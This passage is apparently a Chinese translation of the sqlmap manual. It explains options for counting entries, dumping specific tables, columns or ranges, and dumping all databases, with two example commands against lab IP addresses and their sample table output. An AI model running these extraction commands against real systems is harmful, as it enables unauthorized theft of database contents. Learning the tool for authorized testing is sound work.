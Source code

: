 参数：`--count`

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个Microsoft SQL Server例子：
```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```
获取整个表的数据

参数：`--dump,-C,-T,-D,--start,--stop,--first,--last`

如果当前管理员有权限读取数据库其中的一个表的话，那么就能获取整个表的所有内容。

使用-D,-T参数指适定想要获取哪个库的哪个表，不用-D参数时，默认使用当前库。

列举一个Firebird的例子：
```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```
可以获取指定库中的所有表的内容，只用`-dump`跟`-D`参数（不使用`-T`与`-C`参数）。

也可以用`-dump`跟`-C`获取指定的字段内容。

sqlmap为每个表生成了一个CSV文件。

如果你只想获取一段数据，可以使用`--start`和`--stop`参数，例如，你只想获取第一段数据可hi使用`--stop 1`，如果想获取第二段与第三段数据，使用参数 `--start 1 --stop 3`。

也可以用`--first`与`--last`参数，获取第几个字符到第几个字符的内容，如果你想获取字段中地三个字符到第五个字符的内容，使用`--first 3 --last 5`，只在盲注的时候使用，因为其他方式可以准确的获取注入内容，不需要一个字符一个字符的猜解。
获取所有数据库表的内容

参数：`--dump-all,--exclude-sysdbs`

使用--dump-all参数获取所有数据库表的内容，可同时加上--exclude-sysdbs只获取用户数据库的表，需要注意在Microsoft SQL Server中master数据库没有考虑成为一个系统数据库，因为有的管理员会把他当初用户数据库一样来使用它。
搜索字段，表，数据库
